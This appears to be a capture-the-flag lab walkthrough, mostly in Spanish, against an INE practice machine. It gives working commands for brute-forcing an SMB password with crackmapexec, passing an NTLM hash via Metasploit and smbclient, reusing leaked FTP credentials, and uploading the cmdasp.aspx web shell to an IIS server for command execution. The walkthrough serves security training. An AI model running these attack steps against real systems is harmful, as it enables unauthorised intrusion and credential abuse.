# Exploitation CTF 2

A target machine is accessible at **target.ine.local**. Identify the services and capure the flags.
/usr/share/wordlists/metasploit/unix_passwords.txt

- FLAG 1
Looks like smb user tom has not changed his password from a very long time.



```bash
crackmapexec smb target.ine.local -u tom -p /usr/share/wordlists/metasploit/unix_passwords.txt --continue-on-success | grep '\[+\]'
```



tom:felipe

Escaneamos recursos
```bash
smbmap -r -utom -pfelipe -H target.ine.local
```



Encontramos la flag en *//target.ine.local/HRDocuments/flag1.txt*

Nos conectamos
```bash
smbclient //target.ine.local/HRDocuments/ -U tom
```



- FLAG2
Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?

Usaremos el módulo de metasploit *auxiliary/scanner/smb/smb_login* para hacer **pass the hash**
```bash
set pass_file leaked-hashes.txt
set createsession true
set SMBUser nancy
set RHOSTS target.ine.local
```



Vemos que acontece el PtH
nancy:aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad

Servicios potencialmente vulnerables a Pass the Hash



Buscaremos sobre qué recursos compartidos tiene permisos el usuario *nancy*
```bash
smbmap -r -u nancy -p aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad -H target.ine.local
```



Nos conectamos a *ITResources*
```bash
smbclient //target.ine.local/ITResources -U nancy --pw-nt-hash b3ddea4b4b957f3e037af75cfe5317ad
```



- FLAG3

Usamos la pista que estaba escondida junto a la flag2.txt



david:omnitrix_9901

Intentamos conectarnos por ejemplo al servicio ftp



Vemos la flag

- FLAG4

Vamos a intentar centrarnos en el Microsoft-IIS/8.5 que hay levantado en el puerto 80

Vemos que el servidor ftp expuesto, del cual tenemos credenciales, es el directorio raíz del servidor IIS expuesto en el puerto 80



Vamos a subir una shell en formato interpretable por el servidor *.aspx*
```bash
locate .aspx
```



Vamos a quedarnos con la de **cmdasp.aspx** y subirla
```bash
ftp target.ine.local
```

david:omnitrix_9901
```bash
put cmdasp.aspx
```

Accedemos desde la web



Encontramos la flag en C:\\


